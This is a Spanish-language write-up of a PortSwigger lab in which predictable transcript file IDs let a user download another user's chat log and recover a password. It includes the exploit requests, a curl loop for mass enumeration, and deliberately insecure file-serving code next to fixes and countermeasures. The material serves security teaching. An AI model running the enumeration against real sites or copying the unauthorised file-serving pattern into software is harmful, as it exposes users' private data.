

# Writeup: Insecure direct object references (PortSwigger)

- **Lab**: Insecure direct object references
- **URL**: https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references
- **Categoría**: Access control / IDOR / Static file enumeration / Credentials in logs
- **Dificultad**: Apprentice

---

## 1. Objetivo

Encontrar el password de `carlos` y loguearse. La app guarda transcripts del live chat como archivos `.txt` en disco, servidos por path estático con nombre numérico incremental: `/download-transcript/1.txt`, `/download-transcript/2.txt`, ...

Decrementando el ID del transcript propio, accedés a transcripts de otros users. Uno de esos transcripts contiene una conversación donde un user le dio su password al "soporte" en cleartext.

### Insight central

Dos bugs encadenados, distintos en naturaleza:

1. **IDOR sobre archivos estáticos**: el server sirve el archivo desde un path predecible (`/download-transcript/<N>.txt`) sin chequear que el requester sea el dueño. El "ID" no está en un query param sino en el path; el patrón es el mismo (atacante controla qué objeto cargar, server no autoriza).
2. **Retención de credenciales en logs**: el transcript del chat conserva un mensaje donde el user dictó su password. Aunque el archivo no se sirviera públicamente, almacenar credenciales en cleartext en logs persistentes ya es un fallo (lo que termina en disco, en backups, en SIEM, en SaaS de log aggregation).

El primero es access control; el segundo es data hygiene. Cualquiera de los dos solo, en este caso, no resuelve el lab. Combinados, password takeover en una request.

---

## 2. Recon y resolución

### 2.1 Generar transcript propio

Login `wiener:peter`. Click en tab **Live chat**, mandar un mensaje cualquiera, click **View transcript**. URL del download:

```
GET /download-transcript/2.txt
```

`2.txt` es el de wiener (segundo en orden cronológico). El número es predecible y secuencial.

### 2.2 Probar IDs anteriores

```
GET /download-transcript/1.txt
Cookie: session=H2sTqjGLNB2qIbzgKhHHz6KW1eLRSk9C
```

Response 200 con el transcript ajeno:

```
CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
...
You: Ok so my password is a2xhv9it2vspzij7jsy7. Is that right?
Hal Pline: Yes it is!
```

Password carlos: `a2xhv9it2vspzij7jsy7`.

### 2.3 Login

Logout, login `carlos:a2xhv9it2vspzij7jsy7`, abrir `/my-account?id=carlos`. Lab solved.

---

## 3. Por qué funciona

### 3.1 IDOR en static-file routing

```nginx
# Antipatron - servir directo desde el filesystem
location /download-transcript/ {
    alias /var/transcripts/;
    autoindex off;
}
```

O su equivalente en Express/Flask/Spring:

```python
# Antipatron - file serving sin authz
@app.route('/download-transcript/<filename>')
def get_transcript(filename):
    return send_from_directory('transcripts/', filename)
```

El server lee `transcripts/1.txt` y lo manda al cliente. No mira la sesión, no compara `transcript.owner` con `session.user_id`. Es la versión "cortada" del bug: en lugar de `User.find(request.args['id'])`, es `open(f'transcripts/{filename}')`. Mismo error, otro layer.

### 3.2 IDs predecibles amplifican el bug

`1.txt`, `2.txt`, `3.txt` ... permiten enumeración trivial. Un atacante con un script bash baja todos los transcripts:

```bash
for i in $(seq 1 1000); do
    curl -s "https://target/download-transcript/$i.txt" -H "Cookie: session=..." -o "$i.txt"
done
```

Si el filename fuese `<UUID>.txt` random, el atacante necesitaría leakear cada UUID por otra vía (similar al lab `with-unpredictable-user-ids` del cluster). Random IDs son defensa-en-profundidad pero no reemplazan authz.

### 3.3 Por qué se cae en este patrón

- **Mental model**: "es un archivo estático, no es código de aplicación". El dev separa "URLs dinámicas" (necesitan auth) de "static content" (público). Pero static content puede ser sensible.
- **Reverse proxy seteado por defecto a "serve everything in /var/www"**: configuración de infraestructura no pasa por el threat model de la app.
- **CDN caching de archivos sensibles**: peor aún si el reverse proxy frontea el static content y un atacante pide `/download-transcript/1.txt` y termina en cache del CDN, accesible incluso si el origin ahora corrige.

### 3.4 Implementación correcta

```python
# Fix - authz check antes de servir
@app.route('/download-transcript/<int:transcript_id>')
@login_required
def get_transcript(transcript_id):
    transcript = Transcript.query.get_or_404(transcript_id)
    if transcript.user_id != session['user_id']:
        abort(403)
    # Servir desde path interno, no exponer ID directamente al filesystem
    return send_file(transcript.storage_path, as_attachment=True)
```

O con un layer de indirection:

```python
# Mejor - ID interno != ID en URL
@app.route('/download-transcript/<token>')
@login_required
def get_transcript_by_token(token):
    transcript = Transcript.query.filter_by(
        download_token=token,
        user_id=session['user_id']
    ).first_or_404()
    return send_file(transcript.storage_path, as_attachment=True)
```

El `download_token` es un UUID random per-transcript, y la query exige que coincida con la sesión. Doble check.

### 3.5 El segundo bug: credenciales en transcripts

```
You: Ok so my password is a2xhv9it2vspzij7jsy7. Is that right?
```

El user dictó su password a un agente "humano". Aunque la conversación fuese privada, almacenar texto del chat sin filtrar es problema:

- El log persiste en disco.
- Backups copian el archivo.
- Puede exportarse a SIEM, S3, log aggregator (Datadog, Splunk).
- Empleados con acceso al storage lo ven.
- En este lab + IDOR, pasa a ser público.

**Mitigaciones contra credenciales en logs**:

- Filtros en el chat client/server que detectan patrones tipo password (entropía alta, palabras tipo "password is", "PIN is") y los enmascaran antes del logging.
- Pipeline de scrubbing previo al storage: regex contra emails, números de tarjeta, tokens, frases típicas de leak.
- Educación de soporte: nunca pedir el password completo (los flows correctos son reset, no confirmar).
- DLP (Data Loss Prevention) en el egress: detectar si datos sensibles salen del perímetro a SaaS de logs.

### 3.6 Diferencia con los IDOR previos del cluster

| Lab | Vector | ID format | Ubicación |
|---|---|---|---|
| `user-id-controlled-by-request-parameter` | endpoint dinámico | username | query param |
| `...with-unpredictable-user-ids` | endpoint dinámico | UUID v4 | query param |
| `...with-data-leakage-in-redirect` | endpoint dinámico + 302 cosmético | username | query param |
| `...with-password-disclosure` | endpoint dinámico + HTML form leak | username | query param |
| **`insecure-direct-object-references` (este)** | **static file routing** | **integer** | **path segment** |

El cambio sustancial: el ID está en el **path**, el bug está en el **layer de file serving**, y el dato leakeado proviene de **logs no sanitizados**, no del recurso "user" directamente. El concepto IDOR es agnóstico de capa: cualquier mapping client-controlled → server-resource sin authz check es vulnerable.

---

## 4. Resumen



Tres ideas:

1. **IDOR no es solo `?id=` en URLs dinámicas**: cualquier path predecible que mapea a un recurso sin authz check es IDOR. Static files, CDN paths, URLs de download, image proxies.
2. **IDs secuenciales facilitan enumeración**: random tokens son defensa-en-profundidad útil, pero la mitigación primaria sigue siendo authz check por objeto.
3. **Logs son recursos sensibles**: chat transcripts, audit trails, error reports pueden contener credenciales, PII, tokens. Diseñar sanitización previa al storage; tratar logs con el mismo nivel de access control que recursos primarios.

---

## 5. Contramedidas

1. **Authz check antes de servir cualquier archivo**: incluso si "es estático", pasar por código que valide ownership/permission.
2. **No exponer filenames del filesystem en URLs**: usar tokens random opacos por sesión que mapean a paths internos.
3. **IDs random/UUID v4 en filenames**: defensa-en-profundidad si el authz check falla.
4. **Storage interno fuera del webroot**: archivos sensibles en `/var/data/transcripts/` (no `/var/www/static/`), accedidos solo via app.
5. **Sanitización de logs**: regex/ML para detectar credenciales, tokens, datos PII; reemplazar por placeholders antes del flush a disco.
6. **Retention policies** de logs sensibles: borrar transcripts viejos automáticamente; cuanto menos persiste, menos hay que filtrar.
7. **CDN/cache headers correctos**: `Cache-Control: private, no-store` en respuestas con datos de usuario; evitar que archivos sensibles caigan en caches públicos.
8. **Audit logging del propio download endpoint**: detectar enumeración (mismo user bajando 100 transcripts en pocos minutos).
9. **Educación de personal de soporte**: nunca pedir passwords; usar flows correctos de reset/verificación.

---

## 6. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Insecure direct object references*. https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references
- PortSwigger Web Security Academy. (s.f.). *Insecure direct object references*. https://portswigger.net/web-security/access-control/idor
- OWASP Foundation. (2021). *A01:2021 - Broken Access Control*. https://owasp.org/Top10/A01_2021-Broken_Access_Control/
- OWASP Foundation. (2021). *A09:2021 - Security Logging and Monitoring Failures*. https://owasp.org/Top10/A09_2021-Security_Logging_and_Monitoring_Failures/
- OWASP Foundation. (s.f.). *Insecure Direct Object Reference Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Logging Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Logging_Cheat_Sheet.html
- MITRE Corporation. (2024). *CWE-639: Authorization Bypass Through User-Controlled Key*. https://cwe.mitre.org/data/definitions/639.html
- MITRE Corporation. (2024). *CWE-532: Insertion of Sensitive Information into Log File*. https://cwe.mitre.org/data/definitions/532.html
- MITRE Corporation. (2024). *CWE-538: Insertion of Sensitive Information into Externally-Accessible File or Directory*. https://cwe.mitre.org/data/definitions/538.html
- MITRE Corporation. (2024). *CWE-340: Generation of Predictable Numbers or Identifiers*. https://cwe.mitre.org/data/definitions/340.html
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 8 (Attacking Access Controls).
- Inventario interno (par cross-fase):
  - [`inventario/03-analisis-vulnerabilidades/web/analisis-idor.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-idor.md)
  - [`inventario/04-explotacion/web/explotacion-idor.md`](../../../inventario/04-explotacion/web/explotacion-idor.md)
- Inventario interno (umbrella): [`inventario/04-explotacion/web/explotacion-broken-access-control.md`](../../../inventario/04-explotacion/web/explotacion-broken-access-control.md)
- Labs hermanos del cluster IDOR:
  - [`learning/portswigger/user-id-controlled-by-request-parameter/writeup.md`](../user-id-controlled-by-request-parameter/writeup.md)
  - [`learning/portswigger/user-id-controlled-by-request-parameter-with-unpredictable-user-ids/writeup.md`](../user-id-controlled-by-request-parameter-with-unpredictable-user-ids/writeup.md)
  - [`learning/portswigger/user-id-controlled-by-request-parameter-with-data-leakage-in-redirect/writeup.md`](../user-id-controlled-by-request-parameter-with-data-leakage-in-redirect/writeup.md)
  - [`learning/portswigger/user-id-controlled-by-request-parameter-with-password-disclosure/writeup.md`](../user-id-controlled-by-request-parameter-with-password-disclosure/writeup.md)
